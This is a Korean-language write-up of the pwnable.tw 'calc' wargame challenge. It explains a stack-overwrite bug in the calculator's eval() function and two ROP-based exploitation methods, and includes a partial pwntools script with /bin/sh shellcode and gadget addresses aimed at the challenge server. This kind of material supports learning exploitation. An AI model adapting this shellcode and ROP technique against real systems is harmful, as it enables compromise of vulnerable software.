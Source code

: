 __eval()__ 함수는 +,-,*,/ 연산을 처리하는 함수이다. 해당 함수에 취약점이 존재하는데 만약 opers_count 값이 1일 때 eval함수가 호출되면 피연산자의 개수를 저장하고 있는 opers_count 값을 조작할 수 있다. (ex) - 100 + 2000, * 100 * 200 , 100 + "00" + 1000과 같은 경우) 이 값을 조작하면 이후에 호출되는 __eval()__ 함수를 통해서 opers 이후의 stack 영역에 overwrite 할 수 있다.


## exploit 방법 1 (겁나 복잡한 풀이... 코드를 정확히 파악하고 문제를 풀자)
1. 입력 문자열을 "\*" + str((0x5a0+X)/4) + "\*"+ ROP gadget 으로 구성하면 ebp + X을 ROP gadget으로 overwrite 할 수 있다. 
2. 내가 이용한 ROP chain은 read 함수를 통해서 bss 영역에 (mprotect 함수를 이용해 실행 가능하도록 설정한 영역) 쉘 코드를 삽입한 뒤 해당 영역으로 jmp하는 것이었다. <br/>
여기에서 문제점이 2가지 발생한다.
- 0으로 overwrite할 수 없다. (atoi 함수 이후의 if문은 리턴값이 양수일 때만 실행됨)
- 지금까지의 방식대로 ebp + 4 , ebp + 8, ... 순서대로 1번 방법을 반복하면 ebp+8을 overwrite할 때 ebp+4가 다른 값으로 바뀐다. 

3. 따라서 ebp + X, ebp + (X-4), ebp + (x-8) 순서로 stack을 overwrite 했다. 또한 read 함수의 첫 번째 인자를 0으로 만들기 위해서 입력 문자열을 "\*" + str((0x5a0+X)/4) + "/" + ROP gadget 로 구성했다. 이렇게 구성하면 read의 첫 번째 parameter 값이 fini의 주소 / bss 영역의 결과값으로 overwrite 된다. (C, C++, java에서의 나눗셈에서는 몫에 대해서 버림을 한다. 즉, -5/2 에서 몫은 -2이고 나머지는 -1이다. ) 즉, 0x8049c30 / 0x080ed000 가 되어서 read의 첫 번째 parameter 값을 0으로 만들 수 있다.

## exploit 방법 2 
1. 입력 문자열을 "+" + str(0x5a0/4) 로 구성해서 opers_count 값을 0x5a0/4로 만든다. 
   (opers_count 변수가 calc 함수의 stack에서 ebp-0x5a0에 위치)
   그렇게 하면 calc 함수 내의 printf 함수를 통해서 main 함수의 ebp 값을 알 수 있다. (calc 함수의 ebp는 main 함수의 ebp- 0x20)
2. 입력 문자열을 "+" + str(0x5a0/4 + X) 로 구성하면 ebp + X 에 저장된 값을 알아올 수 있다. 이 값을 Y라고 하자.
3. 다음 입력 문자열을 "+" + str(0x5a0/4 + X) - Y (Y가 음수인 경우는 + (-Y)) + ROP gadget 주소로 (ROP gadget 주소가 음수값이면 - (-ROP gadget)) 구성하면 ebp + X 의 값을 원하는 값으로 overwrite할 수 있다. 
4. 2 ~ 3 의 방법을 이용해서 ROP chain을 구성한다. (int 0x80을 이용해서 execve를 호출)

# 풀이
***
exploit -1
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round3/calc/calc"

def overw_ebp_plus_num(loc,over_num):
	pay="*"
	pay+=str((0x5a0+loc)/4)
	pay+="/"
	pay+=str(over_num)
	p.sendline(pay)

#p=process(file_path)
p=remote("chall.pwnable.tw",10100)

shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
bss_sec=0x80ed000
mprotect=0x806f1f0
read=0x806e6d0
pppr=0x08053883

p.recvuntil("===\n")


overw_ebp_plus_num(0x2c,bss_sec)
overw_ebp_plus_num(0x28,0x100)
overw_ebp_plus_num(0x24,bss_sec) # read_1st_parameter = 0 
overw_ebp_plus_num(0x1c,pppr)
```